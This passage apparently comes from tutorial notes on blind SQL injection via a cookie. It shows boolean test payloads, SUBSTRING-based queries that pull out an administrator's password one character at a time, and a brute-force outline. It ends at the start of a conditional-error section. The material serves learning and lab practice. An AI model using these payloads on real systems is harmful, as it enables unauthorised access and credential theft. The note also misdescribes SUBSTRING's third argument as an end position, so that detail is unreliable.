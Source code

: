bad cookie => the welcome messsage is not printed

And using conditionnal operator we can understand more about the query:

```sql
AZERTY' AND '1'='1   => Welcome
AZERTY' AND '1'='2   => the welcome messsage is not printed
```



Suppose we found the name of a table ex 'Users' and this table got
2 columns called 'username' and 'password'.


And we know that there is an admin account called 'Administrator'


cookie: some_cookie=AZERTY

```sql
AZERTY' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

supppose it returns "Welcome"


```sql
AZERTY' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```
supppose it don"t returns Welcome


we know that the first letter of the password is :

  m < password[0] < t 



###  bruteforce

Bruteforce is possible: 


```sql
AZERTY' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```
SUBSTRING(string,start,end)

We can bruteforce each characters with this technique : 

- SUBSTRING(string,1,1)
- SUBSTRING(string,1,2)
- ....
- SUBSTRING(string,1,n)



## Inducing conditional  error

Idea: **generate a sql syntax error and not a logical one in order to play with the behaviour of the application**

 